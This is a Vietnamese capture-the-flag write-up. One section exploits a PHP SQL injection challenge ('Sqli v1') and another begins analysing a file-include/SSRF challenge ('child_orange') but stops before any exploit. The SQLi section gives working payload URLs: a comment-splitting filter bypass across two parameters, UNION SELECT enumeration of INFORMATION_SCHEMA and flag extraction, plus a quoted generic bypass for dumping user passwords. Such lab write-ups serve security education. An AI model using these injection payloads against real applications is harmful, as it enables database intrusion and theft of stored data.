 # Sqli v1

Đầu tiên ta có source code như sau :

![image](https://user-images.githubusercontent.com/57553555/161921922-f2f34a92-a905-4135-a102-2bdb77afe507.png)

## Phân tích 
- Ta nhận 2 đầu vào `amount` và `name` =>Tham số url `?amount=10000&name=tivi`
- Nó được gán vào 2 biến và được lọc bởi hàm `preg_match` 
- `amount` lọc tất cả các chữ cái , lọc `'` và `"`
- `name` lọc tất cả các kí tự như ```" , ',| ,` ```
- Câu lệnh truy vấn với
```php
$query = "select * from products where amount=".$amount." and name=\"".$name."\"";
echo $query;
=> select * from products where amount=10000 and name="tivi" 
```

## Kiểm tra lỗi
- Đầu tiên ta test tham số amount trước do nó là số nên không cần bypass `"` => Ta test thử payload 
```url
?amount=-1|| 1=1-- -&name=tivi
```
 
![image](https://user-images.githubusercontent.com/57553555/161927184-d14873a5-3678-4c45-aece-45b6c8c70cd1.png)

=> Bài này có lỗi sqli => Nhưng ở đây có vẻ không có flag => Ta phải tìm nó ở chỗ khác rồi

- Tiếp theo ta kiểm tra thử tham số name => Ta phải tìm cách bypass `"` nhằm thoát khỏi chuỗi và thực thi câu lệnh => Ta liên tưởng đến 1 cách là dùng `\`

![image](https://user-images.githubusercontent.com/57553555/161928329-2a166f52-4abf-465b-b834-0e40aa4a79f1.png)

=> Nhưng tham số amount không có `"` rồi @@ mà nó cũng filter mất `"` có thể dùng rồi => Fail ~~~~~~

![image](https://user-images.githubusercontent.com/57553555/161931471-a3e4d7e1-ffd8-4c74-95cb-3bcddc332715.png)

`/vuln.php?id=1 union/*&sort=*/select pass from users– – ` 

- Sau 1 hồi tìm kiếm khá lâu 1 phát hiện siu to đã xuất hiện =>Từ ví dụ trên nếu tham số `id` lọc select và tham số `sort` lọc union => thì khi ta tách truy vấn ra làm 2 => 1 bỏ vào id 1 bỏ vào sort và comment lại đầu vào của tham số trên url `&sort` => ta sẽ được 1 query hoàn chỉnh mà không hề bị lọc

- Áp dụng vào bài của mình => Payload => Thành công
```url
?amount=-1/*&name=*/ or 1=1-- -
```
![image](https://user-images.githubusercontent.com/57553555/161934394-5376c895-9aeb-4b25-8d1e-b5be6e45d61a.png)

![image](https://user-images.githubusercontent.com/57553555/161934728-47c8fc84-f8df-490e-b5ca-5c6c6e325e4c.png)

- Tiếp theo đó ta tìm `database()` => Database : `sqlinjection`
```url
?amount=-1/*&name=*/ union select 1,database(),3-- -
```
![image](https://user-images.githubusercontent.com/57553555/161934904-3645b836-6421-4f8f-92c2-c99331b0b2a2.png)

- Tên table_name => Vì `'` bị lọc nên ta chuyển tên database thành mã ascii  => Table_name : `flagtableahihihoho`
```url
?amount=-1/*&name=*/%20UNION%20select%201,TABLE_NAME,TABLE_SCHEMA%20from%20INFORMATION_SCHEMA.TABLES%20where%20table_schema=CHAR(115,113,108,105,110,106,101,99,116,105,111,110)--%20-
```
![image](https://user-images.githubusercontent.com/57553555/161935680-25fc5355-3d6f-4767-8a05-f7e621d013e1.png)


- Tên column_name => Column_name : `flag`
```url
?
amount=-1/*&name=*/%20UNION%20select%201,CONCAT(COLUMN_NAME),TABLE_NAME%20from%20INFORMATION_SCHEMA.COLUMNS%20where%20table_name=CHAR(102,108,97,103,116,97,98,108,101,97,104,105,104,105,104,111,104,111)--%20-
```
![image](https://user-images.githubusercontent.com/57553555/161936184-3463d04c-d291-4e2d-a59a-e4660096d81b.png)


-Và cuối cùng là flag 
```url
?amount=11 /*&name=*/ UNION select 1,flag,3 from flagtableahihihoho-- -sqlinjection.flagtableahihihoho
```
![image](https://user-images.githubusercontent.com/57553555/161936432-814665c2-362a-40f9-98b4-2803e9b5d186.png)

=> KCSC{flag_for_testing}



# child_orange 

Đầu tiên ta có source code :
![image](https://user-images.githubusercontent.com/57553555/162471087-15884ea2-f251-47a8-bd93-5a5c17857f8e.png)

## Phân tích :
- Đầu vào là tham số `/?url=` => và sau đó gán vào biến $url
- Do mình đọc hàm parse_url chưa ổn lắm nên đã var_dump() nó ra để xem (hàm mới thêm để debug code)
- Đầu tiên biến url được lọc bởi hàm filter_var() => Hàm sẽ kiểm tra url có hợp lệ hay không => Nếu không hợp lệ => Invalid url
- Tiếp theo $url sẽ được kiểm tra nếu trong biến url không có `http:` và `nhienit.kma:2010` => Invalid server
- Tiếp đến nó sẽ lọc 1 số các kí tự đặc biệt => Nếu trong biến url có thì => you are not orange 
- Sau đó nó lại kiểm tra xem khi hàm `parse_url` phân tích cú pháp url thì => host có khác `nhienit.kma` không hoặc port có khác `2010` không => Nếu khác thì => invalid host or port => Nếu giống thì tiếp lục lọc 2 tham số đầu vào là `user & pass` 
- Và cuối cùng nó sẽ chạy vào hàm include và thi hành biến $url 

=> Từ phân tích ta thấy được tham số url đầu vào sẽ bị lọc rất nhìu và yêu cầu bắt buộc host nhienit.kma và port 2010 => Có khi nào để tránh mình dùng localhost để khai thác SSRF không ta 
=> Và ở cuối ta để ý rằng sau khi kiểm tra hoàn tất thì nó sẽ đc thi hành bởi hàm include => Đây cũng là 1 dấu hiệu cho lỗ hổng file include + với trong file source code ta thấy thêm 1 file .htaccess => `php_flag allow_url_include on` 









